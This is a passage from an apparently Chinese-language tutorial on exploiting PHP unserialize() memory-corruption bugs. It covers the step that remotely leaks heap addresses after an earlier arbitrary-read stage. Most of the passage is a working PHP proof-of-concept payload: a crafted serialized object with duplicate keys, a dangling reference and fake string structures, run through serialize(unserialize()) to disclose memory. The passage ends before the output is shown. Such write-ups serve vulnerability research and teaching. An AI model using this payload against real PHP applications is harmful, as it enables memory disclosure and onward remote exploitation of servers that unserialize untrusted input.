 source:[leakDataAtAddress](https://gist.github.com/tmm08a/5013927665891b0f0de2#file-leakdataataddress)

运行后的结果如下：

![enter image description here](http://drops.javaweb.org/uploads/images/065bd5ea75bb04c10642d56008c2f00aa6836f22.jpg)

好极了！我们现在已经可以dump出任意地址的数据了，当然也要知道地址才行，而这是不实际的。那么我们如何远程来提取地址呢？当然我们可以使用上一回中给出的代码来泄露地址，但是泄露出来的地址并未指向重要数据。有没有别的机制可以用来提取地址信息呢？

0x03 地址信息远程提取
=============

* * *

值得庆幸的是，确实有办法来提取地址信息！看下面的代码：

```
<?php
 
$data='O:8:"stdClass":6:{';
$data.='s:3:"123";a:40:{i:0;i:0;i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;i:11;i:11;i:12;i:12;i:13;i:13;i:14;i:14;i:15;i:15;i:16;i:16;i:17;i:17;i:18;i:18;i:19;i:19;i:20;i:20;i:21;i:21;i:22;i:22;i:23;i:23;i:24;i:24;i:25;i:25;i:26;i:26;i:27;i:27;i:28;i:28;i:29;i:29;i:30;i:30;i:31;i:31;i:32;i:32;i:33;i:33;i:34;i:34;i:35;i:35;i:36;i:36;i:37;i:37;i:38;i:38;i:39;i:39;}';
$data.='s:3:"456";a:40:{i:0;i:0;i:1;i:1;i:2;i:2;i:3;i:3;i:4;i:4;i:5;i:5;i:6;i:6;i:7;i:7;i:8;i:8;i:9;i:9;i:10;i:10;i:11;i:11;i:12;i:12;i:13;i:13;i:14;i:14;i:15;i:15;i:16;i:16;i:17;i:17;i:18;i:18;i:19;i:19;i:20;i:20;i:21;i:21;i:22;i:22;i:23;i:23;i:24;i:24;i:25;i:25;i:26;i:26;i:27;i:27;i:28;i:28;i:29;i:29;i:30;i:30;i:31;i:31;i:32;i:32;i:33;i:33;i:34;i:34;i:35;i:35;i:36;i:36;i:37;i:37;i:38;i:38;i:39;i:39;}';
$data.='s:3:"456";i:1;';
$data.='s:3:"789";a:20:{i:100;O:8:"stdclass":0:{}i:0;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:101;O:8:"stdclass":0:{}i:1;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:102;O:8:"stdclass":0:{}i:2;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:103;O:8:"stdclass":0:{}i:3;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:104;O:8:"stdclass":0:{}i:4;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:105;O:8:"stdclass":0:{}i:5;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:106;O:8:"stdclass":0:{}i:6;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:107;O:8:"stdclass":0:{}i:7;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:108;O:8:"stdclass":0:{}i:8;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";i:109;O:8:"stdclass":0:{}i:9;S:17:"\41\41\41\41\00\04\00\00\00\01\01\00\06\00\BB\BC\CC";}';
$data.='s:3:"789";i:0;';
$data.='i:1;r:56;}';
$data=serialize(unserialize($data));
 
var_dump($data);
?>

```

source:[leakLegitimateAddress](https://gist.github.com/tmm08a/5d99e869417f1c52b22d#file-leaklegitimateaddress)

运行后如下所示：
